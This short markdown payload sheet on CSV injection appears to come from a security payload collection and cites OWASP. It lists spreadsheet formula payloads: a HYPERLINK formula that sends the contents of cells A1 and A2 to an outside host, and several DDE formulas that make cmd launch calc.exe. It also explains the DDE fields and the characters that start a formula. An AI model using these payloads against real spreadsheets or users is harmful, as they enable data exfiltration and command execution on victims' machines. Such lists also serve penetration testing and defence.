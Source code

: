# CSV_Injection

## Payload
```
=HYPERLINK("http://contextis.co.uk?leak="&A1&A2,"Error: please click for further information")
=DDE(server; file; item; mode)
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=cmd|' /C calc'!A0

DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0

Technical Details of the above payload:
cmd is the name the server can respond to whenever a client is trying to access the server
/C calc is the file name which in our case is the calc(i.e the calc.exe)
!A0 is the item name that specifies unit of data that a server can respond when the client is requesting the data
```
Any formula can be started with
```
=
+
–
@
```
## Reference: https://www.owasp.org/index.php/CSV_Injection
